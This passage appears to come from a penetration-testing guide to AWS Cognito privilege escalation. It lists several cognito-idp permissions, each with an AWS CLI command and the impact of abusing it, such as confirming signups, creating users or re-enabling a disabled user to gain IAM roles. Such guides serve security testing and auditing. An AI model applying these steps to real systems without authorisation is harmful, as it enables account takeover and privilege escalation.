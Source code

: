 {% code overflow="wrap" %}
```bash
aws cognito-idp create-group --group-name Hacked --user-pool-id <user-pool-id> --role-arn <role-arn>
```
{% endcode %}

**Potential Impact:** Privesc to other Cognito IAM roles.

### `cognito-idp:AdminConfirmSignUp`

This permission allows to **verify a signup**. By default anyone can sign in Cognito applications, if that is left, a user could create an account with any data and verify it with this permission.

```bash
aws cognito-idp admin-confirm-sign-up \
    --user-pool-id <value> \
    --username <value>
```

**Potential Impact:** Indirect privesc to the identity pool IAM role for authenticated users if you can register a new user. Indirect privesc to other app functionalities being able to confirm any account.

### `cognito-idp:AdminCreateUser`

This permission would allow an attacker to create a new user inside the user pool. The new user is created as enabled, but will need to change its password.

```bash
aws cognito-idp admin-create-user \
    --user-pool-id <value> \
    --username <value> \
    [--user-attributes <value>] ([Name=email,Value=email@gmail.com])
    [--validation-data <value>]
    [--temporary-password <value>]
```

**Potential Impact:** Direct privesc to the identity pool IAM role for authenticated users. Indirect privesc to other app functionalities being able to create any user

### `cognito-idp:AdminEnableUser`

This permissions can help in. a very edge-case scenario where an attacker found the credentials of a disabled user and he needs to **enable it again**.

```bash
aws cognito-idp admin-enable-user \
    --user-pool-id <value> \
    --username <value>
```

**Potential Impact:** Indirect privesc to the identity pool IAM role for authenticated users and permissions of the user if the attacker had credentials for a disabled user.

### `cognito-idp:AdminInitiateAuth`, **`cognito-idp:AdminRespondToAuthChallenge`**
